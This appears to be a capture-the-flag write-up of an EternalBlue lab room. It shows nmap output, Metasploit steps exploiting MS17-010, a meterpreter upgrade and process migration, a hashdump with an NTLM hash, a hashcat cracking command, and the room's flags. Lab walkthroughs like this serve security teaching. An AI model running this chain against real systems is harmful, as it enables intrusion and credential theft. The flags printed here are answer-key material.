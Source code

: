 # ETERNAL BLUE EXPLOIT

Scan with nmap

```
	Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:13 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2021-02-21T20:14:53+00:00; 0s from scanner time.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 2h59m59s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:77:f6:09:71:6b (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-02-21T14:14:47-06:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-02-21T20:14:48
|_  start_date: 2021-02-21T20:10:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.70 seconds </p>

```

Re run nmap with --script vuln to find vulnerablities

```
#####Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-21 20:18 GMT
Nmap scan report for 10.10.242.168
Host is up (0.038s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  ms-wbt-server
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open  unknown
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 97.85 seconds
```

System is vulnerable to MS17-010 (EternalBlue) - some other vulnerablities were found but as this room relates to eternal blue this is obviously the right one.

Logging into a remote Kali Machine was required, for some reason I could not get reverse handler to work properly on Ubuntu

**Metasploit Exploit Steps**

    Search ms17-010
    Use /windows/smb/ms10_010_eternalblue
    set RHOSTS - target IP
    exploit
    I'm in

**Privesc**

    use shell_to_meterpreter
    set sessions to be the session that we are using
    ps to list processes
    migrate to another process. Apparently winlogon.exe seems to be pretty stable on Windows so I'll use that

**Obtaining Jons password**

    hashdump
    JONS password = Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**Cracking Jons password using hashcat**

```
hashcat -a0 -m1000 ffb43f0de35be4d9917ac0cc8ad57f8d /home/gabriel/Documents/rockyou.txt
```
    Jons password alqfna22

**Find Flags**

Flag1 = flag{access_the_machine} located at the C drive

Flag2 = flag{sam_database_elevated_access} located where windows stores passwords /windows/system32/config

Flag3 = flag{admin_documents_can_be_valuable} in the Documents folder.